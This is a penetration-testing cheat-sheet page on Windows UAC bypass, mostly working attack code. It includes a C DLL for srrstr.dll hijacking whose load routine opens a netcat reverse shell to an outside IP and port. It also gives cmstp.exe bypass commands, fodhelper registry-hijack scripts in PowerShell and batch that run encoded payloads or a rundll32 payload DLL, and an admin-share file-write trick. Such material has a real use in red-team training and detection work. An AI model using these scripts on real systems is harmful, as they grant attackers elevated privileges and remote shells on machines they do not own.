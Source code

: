 ```yaml
---
description: User Account Control
---
```


# UAC Bypass

* [https://github.com/FuzzySecurity/PowerShell-Suite/tree/master/Bypass-UAC](https://github.com/FuzzySecurity/PowerShell-Suite/tree/master/Bypass-UAC)




## Enumeration

Check current token privileges and UAC settings with Seatbelt:

```
PS > .\Seatbelt.exe TokenPrivileges UAC
```




## SystemPropertiesAdvanced.exe

`srrstr.dll` DLL hijacking.

* [https://egre55.github.io/system-properties-uac-bypass](https://egre55.github.io/system-properties-uac-bypass)

{% embed url="https://youtu.be/krC5j1Ab44I?t=3570" %}

{% code title="srrstr.c" %}
```c
// i686-w64-mingw32-g++ srrstr.c -lws2_32 -o srrstr.dll -shared

#include <windows.h>

BOOL WINAPI DllMain(HINSTANCE hinstDll, DWORD dwReason, LPVOID lpReserved) {
	switch(dwReason) {
		case DLL_PROCESS_ATTACH:
			WinExec("C:\\Users\\<USERNAME>\\Documents\\nc.exe 10.10.13.37 1337 -e powershell", 0);
		case DLL_PROCESS_DETACH:
			break;
		case DLL_THREAD_ATTACH:
			break;
		case DLL_THREAD_DETACH:
			break;
	}

	return 0;
}
```
{% endcode %}

Upload `srrstr.dll` to `C:\Users\%USERNAME%\AppData\Local\Microsoft\WindowsApps\` and check it:

```
PS > rundll32.exe srrstr.dll,xyz
```

Exec and get a shell ("requires an interactive window station"):

```
PS > cmd /c C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
```




## cmstp.exe

* [0x00-0x00.github.io/research/2018/10/31/How-to-bypass-UAC-in-newer-Windows-versions.html](https://0x00-0x00.github.io/research/2018/10/31/How-to-bypass-UAC-in-newer-Windows-versions.html)
* [https://gist.github.com/snovvcrash/56d51e535c3afd89a1e9e68c284553a6](https://gist.github.com/snovvcrash/56d51e535c3afd89a1e9e68c284553a6)

Compile from source, load and execute:

```
PS > Add-Type -TypeDefinition ([IO.File]::ReadAllText("$pwd\Source.cs")) -ReferencedAssemblies "System.Windows.Forms" -OutputAssembly "CMSTP-UAC-Bypass.dll"
PS > [Reflection.Assembly]::Load([IO.File]::ReadAllBytes("$pwd\CMSTP-UAC-Bypass.dll"))
PS > [CMSTPBypass]::Execute("C:\Windows\System32\cmd.exe")
```

Load from a weaponized PowerShell and execute:

```
PS > Bypass-UAC -C "C:\Windows\System32\cmd.exe"
```




## fodhelper

* [https://gist.github.com/netbiosX/a114f8822eb20b115e33db55deee6692](https://gist.github.com/netbiosX/a114f8822eb20b115e33db55deee6692)

Create and set registry values (the payload is generated with [`charlotte.py`](/pentest/infrastructure/ad/av-edr-evasion/README.md#charlotte)):

```
PS > New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
PS > New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
PS > Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value "rundll32 C:\Windows\System32\spool\drivers\color\met.dll, SUJIzDKv" -Force
```

Trigger `fodhelper.exe`:

```
PS > Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
```

Clean up:

```
PS > Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
```

Another way to do it with a script (hijacking PowerShell executable):

{% code title="fod.ps1" %}
```powershell
function Fod {
    $cmd = "C:\Windows\Tasks\foo.exe -enc <BASE64_CMD>"
	
    copy C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe C:\Windows\Tasks\foo.exe
    Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force -ErrorAction SilentlyContinue
	
    New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
    New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
    Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value $cmd -Force
	
	Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
    Start-Sleep -s 3
	
    Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force -ErrorAction SilentlyContinue
}
```
{% endcode %}

The same thing with **ProgID** [abuse](https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses):

{% tabs %}
{% tab title="PS" %}
{% code title="fod-ng.ps1" %}
```powershell
function FodNG {
    Param (
        [String]$cmd = "C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle Hidden -NoP -NoLogo -exec Bypass -enc <BASE64_CMD>"
    )
	
	Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force -ErrorAction SilentlyContinue

    New-Item "HKCU:\Software\Classes\.snovvcrash\Shell\Open\command" -Force
	New-ItemProperty -Path "HKCU:\Software\Classes\.snovvcrash\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
    Set-ItemProperty "HKCU:\Software\Classes\.snovvcrash\Shell\Open\command" -Name "(default)" -Value $cmd -Force
	
    New-Item -Path "HKCU:\Software\Classes\ms-settings\CurVer" -Force
    Set-ItemProperty  "HKCU:\Software\Classes\ms-settings\CurVer" -Name "(default)" -value ".snovvcrash" -Force
	
    Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
    Start-Sleep 3
	
    Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
    Remove-Item "HKCU:\Software\Classes\.snovvcrash\" -Recurse -Force
}
```
{% endcode %}
{% endtab %}
{% tab title="CMD" %}
{% code title="fod-ng.bat" %}
```bat
reg add HKCU\Software\Classes\Program\Shell\Open\command /f
reg add HKCU\Software\Classes\Program\Shell\Open\command /v DelegateExecute /f
reg add HKCU\Software\Classes\Program\Shell\Open\command /ve /d C:\Windows\System32\cmd.exe /f
reg add HKCU\Software\Classes\ms-settings\CurVer /f
reg add HKCU\Software\Classes\ms-settings\CurVer /ve /d Program /f
C:\Windows\System32\fodhelper.exe
```
{% endcode %}
{% endtab %}
{% endtabs %}




## SilentCleanup

* [https://hausec.com/2020/10/30/using-a-c-shellcode-runner-and-confuserex-to-bypass-uac-while-evading-av/](https://hausec.com/2020/10/30/using-a-c-shellcode-runner-and-confuserex-to-bypass-uac-while-evading-av/)
* [https://github.com/chryzsh/Aggressor-Scripts/tree/master/uac-bypass](https://github.com/chryzsh/Aggressor-Scripts/tree/master/uac-bypass)




## SCM UAC Bypass

- [https://www.tiraniddo.dev/2022/03/bypassing-uac-in-most-complex-way.html](https://www.tiraniddo.dev/2022/03/bypassing-uac-in-most-complex-way.html)
- [https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82](https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82)




## Tricks

Bypass UAC for file read/write:

```
Cmd > net use A: \\127.0.0.1\C$
Cmd > A:
Cmd > cd \Windows\System32
Cmd > echo test > test.txt
Cmd > dir test.txt
```
